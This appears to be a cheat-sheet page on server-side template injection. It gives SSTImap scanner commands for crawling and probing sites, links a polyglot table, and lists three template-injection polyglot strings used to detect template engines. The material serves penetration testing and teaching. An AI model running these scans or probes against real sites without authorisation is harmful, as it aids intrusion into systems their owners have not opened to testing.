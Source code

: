 # Server Side Template Injection
## Automated Tools
### TInjA
### SSTImap
```bash
python3 sstimap.py -i -l 5
```
```bash
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
```
```bash
python3 sstimap.py -u "https://example.com/page?name=John" -s
```
## Template Injection Table
An interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most important template engines.\
[Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/index.html/)
### Error Polygot
The only polyglot that produces an error message for all 44 template engines examined. 
> [!WARNING]
> There is a possibility that errors will be caught by the web application in question, rendering error polyglots useless.
### Non-Error Polygots  
These are constructed in such a way that at **least one** of them does not throw an error, but renders the polyglot modified for all template engines we examined.
```content
">[[${{1}}]]
```
```content
<%=1%>@*#{1}
```
```content
{##}/*{{.}}*/
```
